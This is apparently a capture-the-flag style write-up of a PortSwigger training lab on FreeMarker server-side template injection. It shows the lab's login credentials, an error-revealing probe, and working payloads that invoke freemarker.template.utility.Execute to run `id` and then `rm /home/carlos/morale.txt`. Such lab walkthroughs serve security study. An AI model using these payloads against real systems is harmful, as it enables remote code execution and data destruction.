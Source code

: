 ```yaml
---
author: Nithissh S
pubDatetime: 2024-12-03T15:22:00Z
modDatetime: 2024-12-03T09:12:47.400Z
title: Server-side template injection using documentation
slug: ssti-portswigger-lab-3
featured: false
draft: false
tags:
  - BSCP
  - SSTI
description:
  This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. You can log in to your own account using the following credentials `content-manager:C0nt3ntM4n4g3r`
---
```


## Objective 

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: `content-manager:C0nt3ntM4n4g3r`

## Solution 

Once after login as `content-manager` we can edit the displayed products and from that we have a functionality called `Edit template` where can edit the product descriptions and alot more to play around 

I entered something `${nithissh}` there isn't a predefined value in it and which will eventually gets crashed and show an error response as `Freemarker` template which is part of Java 

![](../../assets/images/bscp/ssti/ssti-10.png)

Now, with the following payload `${"freemarker.template.utility.Execute"?new()("id")}` we can see that `id` command got successfully executed in here 

![](../../assets/images/bscp/ssti/ssti-11.png)

In order to solve the lab, we can pass the following payload `${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}` which will delete the file mentioned in the lab objective and that solves the lab 

![](../../assets/images/bscp/ssti/ssti-12.png)